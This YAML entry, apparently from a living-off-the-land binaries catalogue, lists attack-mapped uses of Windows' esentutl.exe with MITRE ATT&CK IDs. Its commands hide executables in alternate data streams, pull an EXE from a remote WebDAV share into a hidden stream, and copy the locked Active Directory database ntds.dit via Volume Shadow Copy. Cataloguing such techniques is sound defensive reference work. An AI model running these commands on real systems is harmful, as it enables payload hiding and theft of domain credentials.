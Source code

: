 ```yaml
---
Name: Esentutl.exe
Description: Binary for working with Microsoft Joint Engine Technology (JET) database
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: Copies the source VBS file to the destination VBS file.
    Usecase: Copies files from A to B
    Category: Copy 
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
    Usecase: Extract hidden file within alternate data streams
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y \\192.168.100.100\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the remote source EXE to the destination Alternate Data Stream (ADS) of the destination file.  
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: Copies the source EXE to the destination EXE file
    Usecase: Use to copy files from one unc path to another
    Category: Download
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
    Description: Copies a (locked) file using Volume Shadow Copy
    Usecase: Copy/extract a locked file such as the AD Database
    Category: Copy 
    Privileges: Admin
    MitreID: T1003
    MitreLink: https://attack.mitre.org/techniques/T1003/
    OperatingSystem: Windows 10, Windows 2016 Server, Windows 2019 Server
Full_Path:
  - Path: C:\Windows\System32\esentutl.exe
  - Path: C:\Windows\SysWOW64\esentutl.exe
Code_Sample: 
- Code:
Detection:
 - IOC: 
Resources:
  - Link: https://twitter.com/egre55/status/985994639202283520
  - Link: https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/
  - Link: https://twitter.com/bohops/status/1094810861095534592
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Mike Cary
    Handle: 'grayfold3d'
---
```

